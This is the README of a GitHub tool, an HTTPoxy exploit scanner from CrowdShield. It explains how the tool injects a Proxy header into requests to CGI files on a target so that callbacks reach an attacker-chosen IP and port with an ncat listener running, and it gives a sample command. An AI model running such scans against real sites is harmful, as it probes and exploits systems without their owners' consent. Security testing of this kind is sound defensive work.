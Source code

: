 # HTTPoxy Exploit Scanner by 1N3 @CrowdShield
Last Updated: 20160720
https://crowdshield.com

# ABOUT: 
PoC/Exploit scanner to scan common CGI files on a target URL for the HTTPoxy vulnerability. Httpoxy is a set of vulnerabilities that affect application code running in CGI, or CGI-like environments. For more details, go to https://httpoxy.org.

# REQUIREMENTS: 
Requires ncat to establish reverse session

# USAGE: 
```
./httpoxyscan.py https://target.com cgi_list.txt 10.1.2.243 3000
```
* This will scan https://target.com with a list of common CGI files while injecting a Proxy header back to a given IP:PORT. A reverse listener will catch the incoming connection to confirm the remote site is vulnerable.

# DISCLAIMER: 
I take no responsibility for wrong doing or misuse of this exploit.

